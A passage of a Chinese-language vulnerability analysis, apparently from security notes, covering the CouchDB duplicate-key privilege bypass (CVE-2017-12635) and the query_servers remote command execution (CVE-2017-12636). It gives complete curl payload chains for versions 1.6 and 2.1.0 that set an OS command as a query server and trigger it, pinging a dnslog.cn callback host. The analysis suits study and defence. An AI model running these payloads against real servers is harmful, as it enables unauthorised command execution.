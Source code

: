```
> jiffy:decode("{\"foo\":\"bar\", \"foo\":\"baz\"}"). 
{[{<<"foo">>,<<"bar">>},{<<"foo">>,<<"baz">>}]}

> JSON.parse("{\"foo\":\"bar\", \"foo\": \"baz\"}")
{foo: "baz"}
```
对于给定的键，Erlang解析器Jiffy将存储两个值，但Javascript解析器将只存储最后一个值。而CouchDB在处理数据时其getter函数只返回第一个值。所以如果让第一个值是admin权限，第二个值是个空值。就可以绕过javascript校验
```
% Within couch_util:get_value 
lists:keysearch(Key, 1, List).
```

### CVE-2017-12636
参考链接：https://justi.cz/security/2017/11/14/couchdb-rce-npm.html  
这篇文章中同样提到，如何获取shell。CouchDB允许通过query_server定义语言来执行命令。查询1.6的CouchDB说明文档， `3.8.1 Query Servers Definition`部分说到CouchDB的Design Functions计算功能是由外部查询服务器执行的，而外部查询服务器实际上是一个特殊的操作系统进程，外部查询服务器需要在配置文件中定义
```
[query_servers]
LANGUAGE = PATH ARGS
```
Language是外部查询服务器会执行的代码，PATH是二进制文件的路径，ARGS是命令行参数。根据API接口文档，想要更改配置文件需要`PUT /_config/{section}/{key}`，那么设置query_servers的代码如下
```
curl -X PUT 'http://admin:admin@your-ip:5984/_config/query_servers/cmd' -d '"ping xxx.dnslog.cn"'
```
API文档中提到想要执行view function的代码如下`POST /{db}/_temp_view`，但是想要执行这个代码就需要有一个真实存在的db，所以payload也是先创建了db和具体的doc。
```
curl -X PUT 'http://admin:admin@your-ip:5984/my_database'
curl -X PUT 'http://admin:admin@your-ip:5984/my_database/"001" -d "{\"Name\":\"AxisX\",\"age\":\"18\",\"Title\":\"Hacker\"}" -H "Content-Type: application/json"`
curl -X POST 'http://admin:admin@your-ip:5984/my_database/_temp_view?limit=10' -d '{"language": "cmd", "map":""}' -H 'Content-Type: application/json'
```
2.1.0版本Payload和1.6版本有很多不同。首先就是接口`/{db}/_temp_view`没有了。那么上面这个1.6的payload就完全不适用了。但是也增加了一些接口`_cluster_setup`、`_membership`等。在查找配置接口的文档中发现，配置接口的访问路径更改为`/_node/{node-name}/_config`，这是由于Couchdb 2.x 引入了集群概念，要具体到某一个节点下进行配置。并且该接口的访问中依然保有`query_servers`这种方式，官方示例代码如下
```
"query_servers": {
    "javascript": "/usr/bin/couchjs /usr/share/couchdb/server/main.js"
},
```

那么要先找到一个节点。然后修改其`query_servers`配置。访问`_membership`接口，可以看到集群中所有节点的状态，选择其中一个已有节点，`couchdb@localhost`。
```
{"all_nodes":["couchdb@localhost"],"cluster_nodes":["couchdb@localhost"]}
```
然后访问该节点的配置接口路径`/_node/couchdb@localhost/_config`。配置完成后还是要考虑触发的问题。查询官方文档`PUT /{db}/_design/{ddoc}`会修订现有Desin Documents，并包含视图对象可以调用view functions。

完整Payload如下
```
curl http://localhost:5984/_membership
curl -X PUT http://localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd -d "\"ping m74ovz.dnslog.cn\""
curl -X PUT http://localhost:5984/my_database
curl -X PUT http://localhost:5984/my_database/"001" -d "{\"Name\":\"AxisX\",\"age\":\"18\",\"Title\":\"Hacker\"}" -H "Content-Type: application/json"
curl -X PUT http://localhost:5984/my_database/_design/"001" -d '{"_id":"_design/test", "views":{"lululu":{"map":""} }," language": "cmd"}' -H "Content-Type: application/json"
```
